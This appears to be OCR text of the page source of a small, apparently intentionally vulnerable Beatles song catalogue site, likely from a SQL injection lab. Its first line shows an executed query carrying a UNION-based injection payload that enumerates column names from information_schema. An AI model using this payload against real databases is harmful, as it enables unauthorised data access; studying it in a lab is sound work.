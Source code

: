 SELECT * FROM Song Where title like '%' union select 0,0,0,0,0,column_name FROM information_schema.tables -- %';<body style="width: 1000px; text-align:left; margin:auto; ">
<font color=blue size=20>
Song catalogue<br>
</font>
<img src="beatles.jpg"><br>

<br>


<script language="javascript" type="text/javascript">
      function doReload(param,value){
      document.location = 'index.php?' + param + '=' + value;
      }
</script>


<br>
<form name="frm1" id="frm1">
Search by album:
<select name="album" id="album" onChange="doReload('album',this.value);">
        <option value="1" selected="selected">Let it be</option>
        <option value="2" >With the Beatles</option>
        <option value="3" >Help!</option>
        <option value="4" >Yellow submarine</option>
        <option value="5" >Magical Mystery Tour</option>
        <option value="6" >A Hard Day's Night</option>
        <option value="7" >Revolver</option>
        <option value="8" >Please Please Me</option>
        <option value="9" >Beatles for Sale</option>
        <option value="10" >The Beatles (White Album)</option>
</select>
</form>

<form name="frm2" id="frm2">
Search by vocal:
<select name="vocal" id="vocal" onChange="doReload('vocal',this.value);">
        <option value="1" selected="selected">Lennon</option>
        <option value="2" >McCartney</option>
        <option value="3" >Harrison</option>
        <option value="4" >Starr</option>
</select>
</form>

<form name="frm3" id="frm3">
Search by year:
<select name="year" id="year" onChange="doReload('year',this.value);">
        <option value="1962" selected="selected">1962</option>
        <option value="1963" >1963</option>
        <option value="1964" >1964</option>
        <option value="1965" >1965</option>
        <option value="1966" >1966</option>
        <option value="1967" >1967</option>
        <option value="1968" >1968</option>
        <option value="1969" >1969</option>
        <option value="1980" >1970</option>
</select>
</form>
